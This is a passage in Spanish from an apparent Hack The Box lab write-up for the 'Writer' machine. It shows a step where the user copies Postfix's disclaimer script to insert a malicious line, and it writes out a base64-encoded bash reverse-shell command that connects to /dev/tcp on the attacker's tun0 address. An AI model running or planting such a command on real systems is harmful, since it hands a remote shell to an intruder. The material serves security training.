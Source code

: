 <img src="/assets/images/htb-writeup-writer/mail.png">
</p>

 - Ahora hacemos una copia del ```disclaimer``` original al directorio en el que estemos

```bash
kyle@writer:~$ cp /etc/postfix/disclaimer .
```
 - Le añadimos una linea maliciosa que se encargue de enviarnos una shell, igual que hicimos anteriormente con ```kyle``` desde **Burpsuite**

```bash
~$> echo "bash -i >& /dev/tcp/$(ifconfig tun0 | head -n 2 | tail -n 1 | awk '{print $2}')/443 0>&1" | base64
[TU_CADENA_EN_BASE64]
```
```bash
kyle@writer:~$ cat disclaimer
```
<p align="center">